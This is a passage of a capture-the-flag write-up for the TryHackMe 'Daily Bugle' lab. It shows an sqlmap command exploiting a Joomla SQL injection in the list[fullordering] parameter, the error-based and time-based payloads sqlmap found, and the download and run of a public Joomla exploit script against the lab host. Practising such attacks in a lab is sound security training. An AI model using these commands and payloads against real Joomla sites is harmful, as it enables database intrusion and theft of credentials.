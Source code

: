 <a href="/assets/images/tryhackme/daily-bugle/6.png"><img src="/assets/images/tryhackme/daily-bugle/6.png"></a>

Use the payload to `sqlmap`:
```bash
sqlmap -u "http://10.10.89.61/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
...
sqlmap identified the following injection point(s) with a total of 2713 HTTP(s) requests:
---
Parameter: list[fullordering] (GET)
    Type: error-based
    Title: MySQL >= 5.0 error-based - Parameter replace (FLOOR)
    Payload: option=com_fields&view=fields&layout=modal&list[fullordering]=(SELECT 8206 FROM(SELECT COUNT(*),CONCAT(0x7171706b71,(SELECT (ELT(8206=8206,1))),0x717a6b7171,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)

    Type: time-based blind
    Title: MySQL >= 5.0.12 time-based blind - Parameter replace (substraction)
    Payload: option=com_fields&view=fields&layout=modal&list[fullordering]=(SELECT 9200 FROM (SELECT(SLEEP(5)))jNcP)
---
```

I tried dump all the databases but it didn't worked. So i try to search the exploit again and i found [this one](https://github.com/stefanlucas/Exploit-Joomla). Let's try it.
```bash
$ wget https://raw.githubusercontent.com/stefanlucas/Exploit-Joomla/master/joomblah.py

$ python joomblah.py http://10.10.89.61                                                                  1 ⨯
                                                                                                                                                                                                                              
    .---.    .-'''-.        .-'''-.                                                           
    |   |   '   _    \     '   _    \                            .---.                        
    '---' /   /` '.   \  /   /` '.   \  __  __   ___   /|        |   |            .           
    .---..   |     \  ' .   |     \  ' |  |/  `.'   `. ||        |   |          .'|           
    |   ||   '      |  '|   '      |  '|   .-.  .-.   '||        |   |         <  |           
    |   |\    \     / / \    \     / / |  |  |  |  |  |||  __    |   |    __    | |           
    |   | `.   ` ..' /   `.   ` ..' /  |  |  |  |  |  |||/'__ '. |   | .:--.'.  | | .'''-.    
    |   |    '-...-'`       '-...-'`   |  |  |  |  |  ||:/`  '. '|   |/ |   \ | | |/.'''. \   
    |   |                              |  |  |  |  |  |||     | ||   |`" __ | | |  /    | |   
    |   |                              |__|  |__|  |__|||\    / '|   | .'.''| | | |     | |   
 __.'   '                                              |/'..' / '---'/ /   | |_| |     | |   
|      '                                               '  `'-'`       \ \._,\ '/| '.    | '.  
|____.'                                                                `--'  `" '---'   '---' 

 [-] Fetching CSRF token
```
